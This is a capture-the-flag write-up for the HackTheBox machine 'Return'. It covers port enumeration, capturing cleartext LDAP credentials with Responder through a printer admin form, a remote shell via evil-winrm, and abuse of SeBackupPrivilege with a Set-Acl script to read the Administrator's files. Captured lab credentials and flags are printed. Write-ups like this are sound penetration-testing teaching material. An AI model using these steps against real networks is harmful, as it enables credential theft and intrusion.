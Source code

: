 ```yaml
---
title: 'return.htb'
date: 2022-07-03
description: 'Writeup for Return, an easy HTB box showcasing basic responder usage.'
---
```


Return is an easy HackTheBox CTF that introduces the player to basic responder usage and the privilege escalation techniques allotted by `SeBackupPrivilege`.

## Enumeration
An initial rustscan revealed a typical CTF’s active directory attack surface. This is to say that the common Windows ports associated with AD and kerberos were open, including 88, 135, 139, 445, etc. Nmap’s full output is as follows:

```text
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2022-06-30 11:19:15Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
```

Checking out port 80 brings me to a web page with a form asking for a printer’s IP.

## Foothold
I launch responder and put in my machine’s IP then submit the form. I immediately receive an LDAP callback including a cleartext username and password.

```text
[LDAP] Cleartext Client   : ::ffff:10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

I use evil-winrm to login to the machine and get the user flag.

```text
┌──(u㉿fricative)-[~/Documents/ctf/return]
└─$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'                 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\svc-printer\desktop> cat user.txt
84d971899a07cc4b935e7331bdb8c88a
```

## Privilege Escalation(s)
Using the command `whomai /priv` I can see that this user, svc-printer has the `SeBackupPrivilege`. To escalate my privileges and read the root flag I import a [powershell script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1) that utilitzes the Set-Acl powershell command to change the file permissions of an arbitrary filepath.

I use the script on the `C:\Users\Administrator` directory and am able to read the root flag.

```text
*Evil-WinRM* PS C:\Users\svc-printer\desktop> Acl-FullControl -user return.local\svc-printer -path C:\users\administrator
[+] Current permissions:


Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         RETURN\Administrator Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:P(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)



[+] Changing permissions to C:\users\administrator
[+] Acls changed successfully.


Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         RETURN\Administrator Allow  FullControl
         RETURN\svc-printer Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-3750359090-2939318659-876128439-1103)



*Evil-WinRM* PS C:\Users\svc-printer\desktop> cat C:\users\administrator\desktop\root.txt
3d24814bcaddab9b9bdc96674d18e136
```